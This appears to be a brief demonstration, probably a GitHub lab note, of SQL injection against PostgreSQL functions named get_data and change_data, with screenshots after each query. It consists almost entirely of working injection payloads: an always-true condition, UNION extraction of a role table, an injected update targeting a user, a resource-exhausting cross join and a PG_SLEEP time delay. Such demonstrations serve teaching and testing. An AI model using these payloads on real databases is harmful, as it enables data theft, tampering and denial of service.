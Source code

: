 SELECT * FROM get_data('1'' OR 1=1 -- ');

<img width="481" alt="image" src="https://user-images.githubusercontent.com/27497026/210150550-89b24445-9670-41d4-b344-15b31c276bff.png">

SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FROM role_access_level -- ');

<img width="570" alt="image" src="https://user-images.githubusercontent.com/27497026/210150560-58b69220-21f9-4420-9589-ae7c1398e167.png">

SELECT * FROM change_data('1'' OR role_name = ''ruslan'' -- ', 3);

<img width="564" alt="image" src="https://user-images.githubusercontent.com/27497026/210150587-bc71bba2-6ea7-4c09-8635-9eea28090242.png">

SELECT * FROM get_data('1'' UNION
(SELECT p1, CAST(p1 AS VARCHAR), CAST(p1 AS INTEGER)
FROM (SELECT generate_series p1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');

<img width="552" alt="image" src="https://user-images.githubusercontent.com/27497026/210150618-8d3e7543-236e-455d-ba01-36c1018af258.png">

SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');

<img width="568" alt="image" src="https://user-images.githubusercontent.com/27497026/210150627-528acd77-f92d-47f5-b4f3-4b534677687f.png">

